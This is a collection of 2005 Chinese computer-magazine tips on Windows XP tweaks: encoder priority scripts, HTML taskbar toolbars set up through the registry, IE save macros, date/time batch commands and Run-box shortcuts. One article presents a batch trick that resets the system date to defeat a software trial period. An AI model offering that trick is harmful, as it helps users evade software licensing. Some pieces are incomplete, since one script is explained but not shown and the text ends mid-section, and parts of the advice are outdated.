*本文使用Foobar2000 v0.8.3汉化增强版为例，其他版本请参考步骤进行设置。

## 懒人的智慧:手动降低转换进程的优先级

只要是稍微有点系统管理经验的人就会想到使用“任务管理器”来设置进程优先级。首先按“Ctrl + Alt + Del”组合键调出“Windows 任务管理器”，切换到“进程”选项卡，选择 lame.exe 进程，按右键并在弹出菜单中选择“设置优先级→低”。机器立刻会从昏睡状态中苏醒，又变得反应敏捷了。这种方法简单易行，不过当你一次性转换几十上百个文件时，那就等着疲于奔命吧——每当开始一个新文件的转换时，优先级就会自动切换回‘标准’。晕……

## 喜新厌旧的便利:利用新版本 Lame 的参数

如果你是一个追新的人，那你的 Lame 应该就是最新的 3.97 了。恭喜你，这次你有福了。在Foobar2000中设置一个参数就能轻松享用鱼与熊掌兼得的乐趣了。首先选择菜单“Foobar2000→参数设置”，在弹出的设置窗口左侧树状目录中选择“diskwriter”，在右侧的“输出预置”列表框中选择“命令行编码器:LAME --alt-preset insane”(见图1)，然后单击下方的“编辑”按钮弹出编码器设置页面。在“参数”文本框最后添加“ --priority 0”(见图2)。





对 Lame 的 standard、extreme 等模式的修改方法也和此一致(在“输出预置”中选择)，不再赘述。这个方法只对较新的 Lame 版本有效，可以通过命令行方式“lame -?”获取参数列表来检验所使用的版本是否支持该参数。

## 执著者的选择:脚本转换

有不少音乐发烧友坚持认为 Lame 3.90 和 3.92 两个版本的编码质量是最优秀的，而这两个版本恰恰又无法支持 priority 参数。为满足这部分朋友的需要，笔者编写了一个脚本并实现了自动调整优先级的功能。

### 第一步:打开“记事本”输入以下内容并保存为 lame.vbs(为方便广大读者，我们将脚本上传，可从http://www.newhua.com/cfan/200506/lame.vbs 下载)，放置在Foobar2000的安装目录中。

注意:脚本中假设 lame.exe 位于 C:\Program Files\foobar2000，可以依据实际情况修改。

```
command="cmd /c start "" /low /wait "c:\program files\foobar2000\lame.exe" --alt-preset insane "
Set objArgs = WScript.Arguments
arg1=""
arg2=""
For i=0 to int(objArgs.Count/2)-1
arg1=arg1 + objArgs(i) + " "
Next
arg1=left(arg1,len(arg1)-1)
For i=int(objArgs.Count/2) to objArgs.Count-1
arg2=arg2 + objArgs(i) + " "
Next
arg2=left(arg2,len(arg2)-1)
command=command + """" + arg1 + """ """" + arg2 + """"
Set WshShell = WScript.CreateObject("WScript.Shell")
Return = WshShell.Run(command,1,true)
```

### 第二步:根据上文中的方法打开编码器设置页面。在“编码器”文本框中填入脚本文件的路径，如本文中填写的是“C:\Program Files\foobar2000\lame.vbs”(不含引号)。最后在“参数”文本框中填入“%s %d”。

无论是懒人、喜新厌旧的新软试用狂，或是执著的经典版本支持者，在这样一番设置后，相信使用Foobar2000转换MP3时对其他程序的影响将大大降低，不必再为转换时什么也干不了而发愁了。

(Lansend)

2005## 用HTML“武装”你的任务栏

在本刊《狂喂补药 快速启动栏变成Super启动栏》一文中，我们给大家介绍了通过True Launch Bar及其相关的实用插件定制、强化快速启动栏。但快速启动栏只是任务栏中的一小部分，而我们今天要做的是强化整个任务栏，并且不用安装任何软件。

### 揭露任务栏的“隐藏”功能

在对任务栏进行“大手术”之前，先来看看任务栏到底可以怎么玩，你一定会惊呼：“任务栏，原来可以这么玩！”

### 1.在任务栏中显示网页

任务栏除了能显示系统托盘、快速启动栏等区域之外，还能做些什么呢？

- 1. 第一步：在任务栏上单击右键，选择“工具栏→新建工具栏”，在弹出的窗口中我们得到这样的提示“选择文件夹或键入Internet地址”，我们可以输入经常需要访问的文件夹路径，而我们最常访问的地方莫过于“桌面”，系统中已经内置了该工具栏，所以我们只需通过“工具栏→桌面”即可。
- 2. 第二步：任务栏中出现了一个“桌面”工具栏，为了美观我们把这个工具栏拖动并放大到屏幕的右侧。如果平时我们在某些情况下暂时无法返回桌面，则可以利用这样的工具条来方便地调用桌面上的程序，当然，其他文件夹也是同样的道理。
- 3. 第三步：新建文件夹工具栏让我们可以方便地访问文件夹中的内容，那么输入一个Internet地址又如何呢？我们继续在刚才的“桌面”工具栏上点击右键，选择“工具栏→新建工具栏”，然后在弹出窗口中输入“http://www.cfan.com.cn”。这时，我们发现工具栏中出现了“爱好者Fan Group”的网页(见图1)。



原来工具栏上可以直接显示网页！网页不就是一些HTML的脚本吗？那么是否所有的HTML网页文件都可以显示在工具栏上呢？

> ★Windows XP中，如果锁定了任务栏则无法将“桌面”工具栏拖出，可以先右击任务栏并去除“锁定任务栏”的勾选，拖动完成后再重新锁定。
> ★要保证拖出的“桌面”(或其他文件夹)工具栏始终显示在最前端，不受其他程序的影响，则应右击该工具栏，并选择“前端显示”。如果觉得这样占用了屏幕空间，可以同时勾选“自动隐藏”。

### 2.让本地HTML文件进驻任务栏

刚才我们是直接通过输入网址让远端服务器上的HTML网页在任务栏中显示出来的，如果我们要显示本地的HTML网页又该如何呢？首先尝试用相同的方法输入一个本地的HTML文件地址，如file:///D:/toolbar/time/index.html(放在D:\toolbar\time目录下的一个HTML时间特效网页，此文件以及本文所提及的HTML特效文件和相关的注册表文件的下载地址为http://www.newhua.com/cfan/200508/taskbar.rar)，系统提示无法使用此文件，有什么办法能让我们直接通过任务栏显示这些本地HTML文件呢？

> 特别提示：本文提供下载地址的压缩包中所含的taskreg.reg文件仅适用于网页文件放置在D:\toolbar目录的情况下，如果解压在其他目录，请根据需要自行修改注册表或重新编辑taskreg.reg文件。

> 小知识
> Internet Explorer的预定义协议
> 大家都知道，我们在使用IE时，经常在地址框中输入类似“http://xxx.xxx.xxx”的地址来浏览网页(http可以省略)。那为什么要在地址的前面加上“http”呢？
> HTTP协议:稍有些互联网知识的朋友都知道，“http”含义就是“超文本传输协议”(Hypertext Transfer Protocol)。IE浏览器就是通过超文本传输协议(HTTP)，将Web站点中的网页源文件下载到本地，然后通过HTML解释引擎将其转化为我们现在看到的漂亮的网页。
> File协议:它的作用是指向本地或者局域网上的计算机中的文件或文件夹。使用方法为“File:///X:/”或者“file:///X:/ab”。
> Internet Explorer的预定义协议还包括FTP协议、HTTPS、Telnet协议和View-Source协议等，详情请查阅http://www.chinaspx.com/archive/other/15669.htm。

### 实战:将时钟请过来 给系统托盘腾点地儿

大家都知道about:blank空白链接页吧？其实打开一个空白页面还可以通过输入“res://mshtml.dll/blank.htm”。这有什么用呢？先别急着问，请先往下看。

- 1. 第一步：打开“注册表编辑器”，点击窗口左侧依次展开[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\AboutURLs]分支，在右侧窗口中我们可以看到很多“about:”的参数，其中black对应的就是res://mshtml.dll/blank.htm。利用这个原理我们可以自定义一些自己的“about:”的HTML网页参数。就用刚才的时间特效网页作为参数吧。
- 2. 第二步：在右侧窗口中新建一个REG_SZ类型的名为Time的键，其键值设置为file:///D:/toolbar/time/index.html(请将本文提供的下载压缩包中相关的文件放到指定的位置)。关闭“注册表编辑器”，在IE的地址栏中输入“about:time”，看看是否成功打开了时间特效。
- 3. 第三步：在任务栏上右击，选择“工具栏→新建工具栏”，在输入框中输入“about:time”(不含引号，见图2)，单击“确定”后任务栏上就可以显示时间了(见图3)。
- 4. 第四步：任务栏上会显示“D:\toolbar\time\index.html!”的字样，右键单击该工具栏并取消“显示标题”的勾选即可让其只显示时间，接着在“开始”上右击打开属性，在“任务栏”标签下取消“显示时间”的勾选让托盘不再显示时钟即可。





> 小提示
> 其实在Windows 2000 SP3或Windows XP SP1版本之前的Windows系统，以及使用的IE版本在6.0SP1之前的Windows系统可以直接通过JavaScript协议调用本地的HTML文件，方法是在“工具栏→新建工具栏”的弹出窗口中输入“javascript:window.location.replace("file:///D:/toolbar/time/index.html")”(不包括外侧引号)，效果和about:time是一样的，不过在之后的Windows版本中，由于发现黑客可以利用JavaScript来直接调用系统中的命令，可能会造成恶意入侵行为，所以微软在后来的Windows版本中禁止了这一行为。

## 打造完整的HTML任务栏

通过上面的例子，我们已经学会了如何将HTML文件应用于任务栏，并解决了本地HTML无法出现在任务栏中的问题，现在我们就来看看HTML任务栏的一些精彩示例吧。

### 1.定制自己的万年历

许多朋友不是喜欢在桌面上安装一个万年历吗？当然了，这样的软件很多，不过现在我们可以自己DIY一个了，它是用HTML语言编写的(如果你熟悉HTML，相信这个应该难不倒你的)，如果不会自己编写，就用别人已经写好的吧！

- 1. 第一步：根据上面提供的下载地址将文件下载到本地，并解压到D:\toolbar目录中，本例要用到的是Calendar目录中的文件，即file:///D:/toolbar/Calendar/index.html。
- 2. 第二步：打开“注册表编辑器”，依次定位到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\AboutURLs]分支，在右侧窗口中新建一个名为Calendar的REG_SZ键，键值为“file:///D:/toolbar/Calendar/index.html”，退出“注册表编辑器”。
- 3. 第三步：在任务栏上点击右键，新建一个地址为“about:Calendar”的任务栏，这时任务栏中是不是多了一个名为“万年历”的工具栏呢？为了更加直观，我们把这个工具栏拖到了屏幕的右侧合适的位置，一个属于自己的万年历完成了(见图4)！



> 小提示
> 在Windows XP SP2中运行这样的HTML脚本，系统将提示是否阻止其运行，我们可以通过右击IE，选择“属性→高级”，勾选“允许活动内容在我的计算机上的文件中运行”的全设置也可以暂时解决这一问题，详情可参阅《电脑爱好者》2004年第22期的《SP2“绯闻”又起——彻底驯服Windows XP SP2》一文。

### 2.工具栏中的天气预报

在《狂喂补药 快速启动栏变成Super启动栏》一文中我们给大家介绍了一个天气插件，通过这个插件我们可以随时知道当前和未来的天气情况，在这里我们也给大伙定制了一款，效果非常不错！

- 1. 第一步：解压后将Weather目录下的HTML文件复制到D:\toolbar目录，然后用同样的方法建立一个about:的weather参数。
- 2. 第二步：在任务栏中新建一个“about:weather”工具栏，然后将其拖动到屏幕合适的位置即可(见图5)，这个天气插件可以查询中国的各大城市的天气情况，查询范围比True Launch Bar的要广不少，相信能够给大家带来方便。



### 3.让“运行”直接进驻任务栏

一般我们要打开“运行”窗口都是通过“开始→运行”，接着再输入要运行的命令，如果熟悉快捷键的则用“Win + R”，不过这样还是比较麻烦，如果直接在任务栏上建立一个“运行”的输入框，这样就会节省不少时间。
把Runbar解压，在注册表中添加一个about:的 Runbar 参数，然后新建 about:runbar 工具栏即可。以后我们不需要点击“开始→运行”或“Win + R”这些步骤了，在 Run Box 中直接输入 CMD 回车就可以打开命令输入窗口了，是不是快多了？

当然，HTML 语言的文件在任务栏的应用还有很多，如果你熟悉它的用法，或者你在网上发现了有用的 HTML 特效，你都可以拿过来用。只要 HTML 语言能做到的效果，在这里都可以显示出来！

### 4.Ampbar 音乐随手控

True Launch Bar 的 Media Control 插件让 WinAmp 进驻了任务栏，而我们自己也可以通过编写 HTML 来做到这一点。解压下载文件并将 Ampbar 目录放置在 D:\toolbar, 用同样的方法建立 about: 参数，然后新建 about:Ampbar 工具栏即可(见图6)。


> 小提示
> 这个 Ampbar 只适用与 Winamp 5.0 以前的版本，且 Winamp 必须安装在 C:\Program Files 目录。

### Maxthon 插件进驻任务栏

相信大家对 Maxthon（原名 MyIE2）、 GreenBrowser 等浏览器都很熟悉了吧？它们都是 IE 的扩展，我们使用它们的一个非常重要的原因就是：它们拥有许多有意思的扩展插件。大家有没有发现这些插件中很大一部分其实都是一些 HTML 语言的脚本文件呢？即使不熟悉 HTML 语言，我们完全也可以将这些插件放到自己的任务栏上面，而不用老是开着 Maxthon。

### 1.华军软件园插件:IT 新闻早看到

不少朋友喜欢看 IT 新闻，而华军软件园的更新速度一直有口皆碑，实为上选。因此我们决定将用于 Maxthon 的华军软件园插件直接拿过来用，这款插件其实就是用 Maxthon 侧边栏打开的，说白了就是一个集中简化了的华军网，所以在工具栏上面直接打开没有什么问题。

### 2.QQLite 插件:挂机超省资源法

自从腾讯推出了 QQ 的等级制度，很多朋友就整天把 QQ 挂起来提升等级。不过 QQ 内存占用大，这个已经是地球人都知道的了！如果同时挂几个 QQ 的话，对于配置不好的朋友可能就比较困难了！所以，不少朋友都想到了通过 Maxthon 的 QQLite 插件，在浏览器中用网页的方式来给 QQ 挂级。

虽然这个想法不错，不过这样不免会影响浏览网页，所以我们要寻求更好的方法来解决！把 QQLite 插件放到任务栏中应该不错，这样只要多开几个 QQ 任务栏登录就可以了，既不影响网页浏览又可以给 QQ 挂级，何乐而不为呢？

### 3.Gmail 插件:登录 Gmail 就这么简单

不少朋友经常用 Gmail 来收发邮件，不过在登录 Gmail 的网页的时候打开速度很慢，这时我们可以借助一下 Gmail 的插件，省去下载登录入口页面这个步骤，登录 Gmail 的速度会快不少，提高工作效率是个不错的选择（见图7）。



### 4.Maxthon 的 HTML 插件下载地址大全

Maxthon 的插件实在太多，笔者不能一一列举，对于用 HTML 编写的插件，我们都可以将其放到系统的任务栏上面，要什么样的功能和效果，这就看你自己的需求了。

Maxthon 的插件下载地址: http://forum.maxthon.com/forum/index.php?showtopic=4658&st=0

### 写在最后

最后要提醒大家注意的是，如果使用了 Windows XP SP2，那么在新建这些工具栏的时候都会出现“为帮助保护您的安全，Internet Explorer 已经限制此文件显示可能访问您的计算机的活动内容。单击此处查看选项”的黄色警示条，单击该警示条，选择“允许阻止的内容”即可。但如果对工具栏位置进行了移动，则系统仍会再次对其进行阻止，此时须重复刚才的步骤。

(成都 L.LiYuan)

## 开发IE外挂：按键精灵

在各种网络游戏中，按键精灵扮演着重要的角色。很多玩家都能用按键精灵自己编写脚本来充当外挂，那我们能否用它来打造一款 IE 的网页保存外挂呢？

第一步：从 http://www.onlinedown.net/soft/4832.htm 下载并安装按键精灵，安装过程较简单，一路“下一步”即可。但应注意安装过程中会出现是否安装 3721 上网助手及迅雷下载器的提示，可以根据个人喜好选择安装。

第二步：我们要确定用 IE 保存 MHT 格式的网页文件所要进行的按键操作。首先打开“文件”菜单，使用组合键(Alt + F)，注意虽然按键精灵可以实现模拟鼠标点击“文件”菜单的操作，但这样缺乏通用性，当窗口大小不同时可能无法正确定位，所以下面的操作我们都用键盘操作实现。接下来选择“另存为(A)...”，使用按键 A。此时弹出“保存网页”对话框，按一下 Tab 键把输入焦点切换到“保存类型”的选择列表上，按两次方向键“↓”并回车就可以选择到“Web 档案，单一文件(*.mht)”这个类型。最后再按一次回车键就完成了整个保存工作。

```
[General]
Description=自动保存为MHT文件
BeginHotkey=121
BeginHotkeyMod=0
RunOnce=0
Enable=1
[Repeat]
Type=0
Number=1
[Comment]
Content=
[Script]
KeyDown 18 1
KeyPress 70 1
KeyUp 18 1
KeyPress 65 1
KeyPress 9 1
KeyPress 40 2
KeyPress 13 2
```







第三步：在按键精灵中增加脚本来实现上述按键操作。启动按键精灵，在主界面上点击“增加”按钮(见图1)，启动“脚本编辑器”。接着我们依次完成上述动作的添加，首先是组合键(Alt + F)，在脚本编辑器左侧的“键盘动作→按键组合”的输入框中按下 Alt + F，然后点击“插入→”按钮，这样一个动作就添加到了脚本中。按此方法将其他动作输入脚本中。最后我们在“脚本描述”中给这个脚本起个名字(比如“自动保存为 MHT 文件”)，并指定脚本对应的热键 F10，注意不要和系统中已有的热键冲突，以下是完成后的代码，用“记事本”保存为“自动保存为 MHT 文件.TXT”(见图2)。

```
Content=
[Script]
KeyDown 18 1
KeyPress 70 1
KeyUp 18 1
KeyPress 65 1
KeyPress 9 1
KeyPress 40 2
KeyPress 13 2
```

第四步：保存这个脚本后，我们打开 IE 浏览器来测一下效果，浏览一个要保存的网页，按下上文中指定的快捷键 F10，你可以看到按键精灵自动完成了保存工作，你再也不用为每次繁琐的操作而发愁了。

> 小提示
> 此脚本默认将 MHT 文件保存在“我的文档”中，如果需要手动设定保存路径，可以在脚本中去除最后一次回车的动作。

## 外挂升级计划：人性化需求

自己实现了IE外挂当然很有成就感，但大家总是会希望软件能够更加符合我们的使用习惯，或者说更加人性化。我们平时保存网页时总希望能够分门别类地将它们存入对应的位置，比如电脑技术相关的存入D:\PC，而美女照片相关的则存入D:\MM，该给外挂升级啦！

- 1. 要分类保存，当然需要先建立各对应类别的文件夹，本文中以D:\PC为例。大家在实际使用中还可以根据需要建立如PIC、WORK等类别的文件夹。

- 2. 在按键精灵的主界面脚本列表中双击刚才编写的外挂脚本，打开“脚本编辑器”。以“普通”模式浏览代码，找到“按键<Tab>”位置并选中，在左侧的“键盘动作”栏中依次插入组合键“Ctrl + Home”（在“文件名”文本框中将光标定位到最前）、“D:\PC\”（其中“:”需要用组合键“Shift + ;”生成）。

- 3. 将“脚本描述”修改为“保存MHT至PC”，点击“保存”按钮。以此脚本为模板，分别制作出“保存MHT至MM”、“保存MHT至WORK”等脚本，但需要注意的是，每个脚本在保存时应设置不同的热键以防止冲突。

> 小提示
> 在按键精灵主界面的脚本列表中必须勾选需要使用的脚本才能保证热键可用。

## 升级之后：除了外挂 我们还有

- 1. 如果你用Maxthon
第一步：在Maxthon中选择菜单“选项→Maxthon选项”，在弹出窗口左侧选择“保存”标签。
第二步：在窗口右侧的“自动保存”栏中将“自动保存为：”设置为“保存页面(.mht)”，勾选下方的“按站点分目录保存”可以根据站点进行分类保存，但不如我们刚才实现的外挂的分类保存功能灵活和强大。同时还能自定义设置“文档保存路径”和“图像保存路径”，选择常用的网页保存目录即可（见图4）。
第三步：选择菜单“文件→自动保存”，就能自动将当前页面保存到预定位置了。

- 2. IE插件来相助
这里给大家带来几款IE插件，都具有保存MHT的功能，懒得自己动手就用现成的吧！
(1)IEToolkit:http://www.onlinedown.net/soft/20108.htm
安装后按热键F6就自动保存MHT，使用较简单。
(2)MHT Quick Saver:http://www.onlinedown.net/soft/16079.htm
功能更强大一些，可以预定保存目录，无须确认，建议使用。（蓝鹰）



忙碌了一天，掌柜的望着窗外渐渐西下的夕阳，神色凝重地对身边的伙计嘟哝着：“哎……又一天过去了，还有两天ABC软件（该软件的主程序路径为“d:\abc.exe”）的试用期就结束了。”伙计看了看日历后说：“这有何难？不就是时间限制嘛，看我的。”（当天日期：2005年3月15日，软件最后使用期限：2005年3月17日）。
注意：Windows 98中date/time命令的使用和Windows 2000/XP/2003中并不完全一致，本文中的命令以Windows XP为例。

```
@echo off
date 2005-03-15
d:\abc.exe
```

本期配料:date/time
适宜人群:没有DOS基础的初学者
首先当然先带大家来“尝尝”date命令，如果仅仅输入“date”，会出现什么情况呢？
此时会首先显示出当前的系统日期，格式为“当前日期:YYYY-MM-DD 星期X”，然后提示“输入新日期:<年月日>（见图1）。我们可以在提示输入新日期处输入形如“2005-03-15”的日期数据来改变当前系统日期。



> 小提示
> 以上为Windows 2000/XP/2003的命令输出信息，而在Windows 98中为“Current date is XXX MM-DD-YYYY”，XXX代表英文的星期几（如Wed，星期三），MM-DD-YYYY代表“月-日-年”（如“03-30-2005”）。
> 当我仅仅想修改系统日期，而不想看当前的日期时，能不能省一些操作？当然可以，本文开头的那个突破软件使用期限的脚本中已经使用了此方法。

目标1:直接修改系统日期到2005年8月2日
适用于Windows 98:date 2005-08-02
适用于Windows 2000/XP/2003:date 08-02-2005
命令格式:date YYYY-MM-DD(Windows 2000/XP/2003)/date MM-DD-YYYY(Windows 98)
命令讲解:date命令后直接跟上一条日期参数，就能不显示任何多余的信息而直接修改系统日期。其中月份和日期可以用单位数，如“08-02”也可写为“8-2”。
而有的时候，我们的需要又恰恰相反，不要改动系统时间，我们需要的仅仅是显示。
目标2:显示当前系统日期，不提示输入新日期
date/t(Windows 98不支持此参数)
命令格式:date/t
命令讲解:执行带/t参数的date命令后，就不再提示需要输入新日期了，而是直接显示出了当前的系统日期（见图2）。



目标3:直接修改系统时间到02:15:30
time 02:15:30
命令格式:time HH:MM:SS
命令讲解:和date命令基本一致，在命令中直接使用时间参数后，就不再显示当前系统时间，而直接设置系统时间。
小提示
对于系统时间有较高要求的用户可以双击桌面下方任务栏中的系统托盘的时间，打开“日期与时间属性”窗口，在“Internet时间”选项卡中点击“立即更新”按钮，这样系统时间就能和网络中的时间服务器同步了（见图4）。如果是Windows XP，则可执行命令“w32tm /resync /rediscover”（不含引号）来完成同步，我们也可以把这条命令做成批处理置于桌面上。
目标4:显示当前系统时间，不提示输入新时间
time/t(Windows 98不支持此参数)
命令格式:time/t
命令讲解:执行带/t参数的time命令后，就不再提示需要输入新时间了，而是直接显示出了当前的系统时间。




## 和时间做游戏



脚本讲解：%DATE%是命令行方式中自带的一个变量，可以通过该变量来直接获取等同于执行 “date/t” 命令的返回值，但由于返回值是类似 “2005-03-15 星期二” 这样中间带有空格的值，所以为了保证语句能够正确运行，我们必须在其两侧加上英文双引号。而NEQ则是一个比较运算符，代表 “不等于”，即其左侧的变量 (“%DATE%”) 不等于右侧的值 (“2005-03-15 星期二”) 时，执行后面的操作 (即执行 “qq.exe”)。而if语句中如果带有else，则当判断条件不成立 (这里要判断成立的条件是 “%DATE%” 不等于 “2005-03-15 星期二”，如果两个值相等，条件就不成立) 时，自动执行else后接着的语句 (即 “goto err”)。其后的goto，相信大家已经猜到了，这不就是 “走到” 的意思吗? 没错，goto就是让程序 “走到” (跳转到) 指定的标签位置，这里要跳转到err位置然后继续执行，即显示 “今天不准用QQ聊天”。

由于程序是由上至下顺序执行的 (以goto语句跳转除外)，所以如果不在if语句后加一条exit (结束命令)，则批处理在判断当前日期非指定的禁止运行QQ的日期后，运行QQ，但其后仍会顺序执行到显示 “今天不准用QQ聊天” 的语句。而在else后用跳转语句直接执行err标签后的语句，则没有经过exit，自然不受其影响。

小提示
- goto语句跳转到的标签位置可以用 “:标签名” 来定义。
- pause语句是为了能够让用户看清echo提示的内容，否则执行批处理显示完内容后程序直接关闭，一闪而过的命令行窗口根本不可能看到诸如 “今天不准用QQ聊天” 等的提示，而在使用pause语句后可以在用户键入任意键前保持命令行窗口暂停以便查看提示信息。

如何运行程序才是最快的呀? 相信很多人会回答: 当然是 “快捷方式”！ 其实不然，用 “运行” 远远比你用鼠标在快捷方式堆积如山的桌面上找半天快得多，如果你不信的话，那么就请先看看本文。

## 名师烹饪: 记录QQ的使用情况

适宜人群: 熟练掌握批处理的高级用户

到底谁在用我的QQ? 如果有一个批处理可以记录下运行QQ时的系统登录用户，及运行的日期和时间……

同样将以下脚本保存为runqq.bat，放置在QQ安装目录下，并按照上文中的方法将其桌面上的快捷方式指向此文件。

```
@echo off
echo -------------------- >> "log.txt"
echo QQ运行日期=%DATE% >> "log.txt"
echo QQ运行时间=%TIME% >> "log.txt"
start /w regedit /e reg.txt HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer
type reg.txt | find "Logon User Name" >> "log.txt"
del reg.txt > nul
qq.exe
```

此脚本如在Windows 98下使用，应去掉 “%DATE%” 和 “%TIME%” 这两行，改为下面的方式 (仅支持记录用户名，不记录日期和时间)。

```
@echo off
echo -------------------- >> "log.txt"
start /w regedit /e reg.txt HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control
type reg.txt | find "Current User" >> "log.txt"
del reg.txt >> nul
```

以后每次有人双击快捷方式运行QQ时，都会自动记录下该用户的系统登录名、运行日期和时间，当我们要查看QQ的使用情况时，只需用 “记事本” 打开QQ安装目录下的log.txt即可，记录的格式如图6所示。其中[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Logon User Name]键值记录了当前系统中登录的用户名。



## 掌柜的有话说

- 1. DOS在哪儿
Windows 98: 点击 “开始→运行”，输入 “command”(不含引号)回车。
Windows 2000/XP/2003: 点击 “开始→运行”，输入 “cmd”(不含引号)回车。

- 2. 调试脚本有学问
在脚本调试阶段，应将脚本中的 “@echo off” 改为 “@echo on” 以便打开回显，这样如果脚本在运行中出现了问题，我们就能直观地从反馈信息中找出问题所在。

- 3. % 和 %% 的区别
%和%%都是变量前缀，在命令行方式下使用变量则输入 “%”，而在批处理脚本中引用到变量时，则应采用 “%%”。

* 特别感谢热心读者 “大鱼一条” 对本栏目的帮助与支持!

小提示
在脚本中使用 “>>” 追加重定向操作符而不是使用 “>” 重定向操作符，区别在于 “>>” 是在文件尾部添加信息，而 “>” 则是清空文件内容再写入信息，对于需要记录每次QQ使用情况的脚本文件当然不能清空前一次的记录。
将脚本稍加修改，使其记录其他程序的使用情况。

【掌柜的】

## 疑惑从何而来

- 1. 疑惑的起源
有很多朋友都有这样的疑惑: 为什么在 “开始→运行” 中输入 “Regedit.exe”(注册表编辑器)、“Notepad.exe”(记事本)后，能非常方便地打开相应的程序。可是当我们输入诸如 “QQ.exe”、“FlashGet.exe” 时，除了弹出一个包含醒目红叉的 “Windows 找不到文件……” 的错误提示框外，就再无其他了。

- 2. 刨根究底找原因
为什么有时 “运行” 能和你的输入 “灵犀相通”，而有时却又变得 “木讷” 了呢?
通过简单你就会发现，在 “运行” 中能省略完整路径而仅以文件名就可以运行的程序，大多在系统目录下。那是否不在系统目录中的程序就不能使用这种运行方式了呢? 你又会奇怪地发现很多不在系统目录下的程序 (如一些编译器软件) 也和 “运行” 有一腿！这又是为什么呢? 那么就要来讲讲 “运行” 的路径搜索方式了，在不给出完整路径的情况下，“运行” 主要通过以下三种途径获取路径。
(1) 系统目录查找
顾名思义，这种途径的意思就是指在Windows的系统目录中搜索匹配的文件名。
(2) 环境变量
系统中有很多环境变量参数，在系统目录中搜索无果的话，系统还会从环境变量中搜索匹配的目录，并查找其下有没有指定的文件。
(3) 注册表
注册表中有一个专门用来存放应用程序路径的位置，通过在其中添加指定程序的详细路径，也能做到运行时无须键入完整路径。搞清楚了 “运行” 的秘密，接下来当然是如何根据这个特性来强化我们的 “运行”。

## 给“运行”补补脑子

为了大家能够更加直观地学会如何强化 “运行”，所以我们选择了大家最常用的软件 “网际快车”(FlashGet)作为实例的对象。
需求分析: FlashGet的安装目录是D:\software\flashget，可以在 “运行” 窗口输入完整的路径 “D:\software\flashget\flashget.exe” 来启动，改造成只需要输入 “Flashget.exe” 或 “Flashget” 的聪明 “运行” 方式。

### 1. 简单而有效: 环境变量

你可能会感到奇怪，不是说第一个应该是 “系统目录查找” 吗? 可为什么先从排在第二个的 “环境变量” 说起? 稍微一想就明白了，我们不可能为了让FlashGet能够快速运行而将其安装在系统目录中。由于 “D:\software\flashget” 不是系统路径，所以直接输入可执行文件名时系统会提示找不到文件。如果将FlashGet的安装目录加入环境变量中，这就相当于告诉系统，当在 “运行” 中找不到完整的文件路径时，应该从哪儿找。
第一步: 右击 “我的电脑”，选择 “属性”，在弹出窗口中进入 “高级” 选项卡，点击 “环境变量” 按钮。
第二步: 在 “环境变量” 窗口中找到 “系统变量” 栏，双击其下变量列表中的 “Path”。
第三步: 弹出 “编辑系统变量” 对话框，在 “变量值” 文本框的末尾添加 “D:\software\flashget;”(本文中添加的值仅供举例用，可根据实际安装目录自行修改，在最后不要忘记加 “;”)，点击 “确定” 保存该系统变量。
再在 “运行” 里试着输入 “FlashGet.exe”(不含引号)，“运行” 已经能够 “猜” 到这个文件的完整路径了。

### 2. 一劳永逸: 注册表

改变系统路径变量的方法虽然简单方便，不过如果将Path变量中的内容设置得太多，就可能使一些不同目录的同名文件的执行不可预测。所以笔者并不推荐，其实可以从注册表入手，做到一劳永逸。
(1) 让系统知道程序路径
第一步: 打开 “注册表编辑器”。找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths]，在此主键下面可以看到很多程序的执行文件和启动路径，这些在注册表相应位置登记过 “身份” 的程序都能在 “运行” 中以文件名运行，而无须输入完整路径。现在要做的就是把FlashGet也添加到里面。
第二步: 在 “App Paths” 项下新建一个名为 “FlashGet.exe”(不含引号) 的子项。选中该子项，在右侧窗口中将 “默认” 的键值设置为 “D:\software\flashget\flashget.exe”，然后新建一个名为 “Path” 的字符串值，键值设置为 “D:\software\flashget”(见图1)，关闭注册表。



## Just Do It

给系统中其他常用的程序在注册表中 “登记” 一下路径。

- (2) 短些、再短些
省略了程序的完整路径，你输入的内容变得相当有限，可 “懒” 这个东西有时候就是那么无极限，你或许仍会觉得输入 “FlashGet” 太长了，那么再教你一种直接输入 “fg” 即可运行FlashGet的方法(其他程序请参照此方法进行操作) : 将[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths]下刚才新建的 “FlashGet.exe” 子项的名称改为FG.exe即可。

- (3) “运行” 也有 “语句联想” 功能
在使用 “拼音加加” 等输入法时，一定会用到一个十分实用的功能——语句联想。在 “运行” 中也有类似的功能，不知你是否注意过，当你在 “运行” 中打开过一次 “calc”(计算器)后，再次键入文件名时只需要输入第一个字母就会弹出一个下拉列表，其中就包括了完整的文件名 “calc”(见图2)。原来这些信息都保存在[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU]中，共能保存26个键值，从a到z排列每当输入程序的第一个字母后，系统就会自动提示此前已经使用的程序，从而省去了再次输入的麻烦。我们可以利用这个特性，为常见程序建立一个输入自动完成的功能。这里面一共可以保存26个键值，从a到z排列，所以需要的是合理利用这仅有的26个键值，比如给本例中的FlashGet添加自动完成功能。

小提示
- 抛开注册表用 Command Creator 说话
前面我们都是用注册表来增强“运行”的，如果你想更省事些，建议下载 Command Creator (http://www.jiisoft.com/cmdcreator/download.htm)。在软件主界面左侧选中“My Commands”项目，在右侧窗格空白处右击，选择“New Command”，在弹出的新窗口中的Command框中输入在“运行”中执行命令的名称(比如:CF)，在Path/Url处输入程序、文件夹或网址的完整路径(比如：http://www.cfan.com.cn)。

## 连根拔起——共享的二次登录

办公室、学校、网吧等局域网环境在实际工作中都会用到文件共享功能。抛开病毒问题不谈，在局域网中使用共享无疑是一种最高效的数据交换方式。可是大家在使用共享时都曾遇到过这样一个问题无法解决：Windows 的文件共享没有“注销”功能，也就是说当你以 Guest 登录某人的共享文件夹时，你就无法再切换到 Administrator 对文件夹进行操作了。今天要做的就是将已经登录的信息连根拔起。

### 小提示
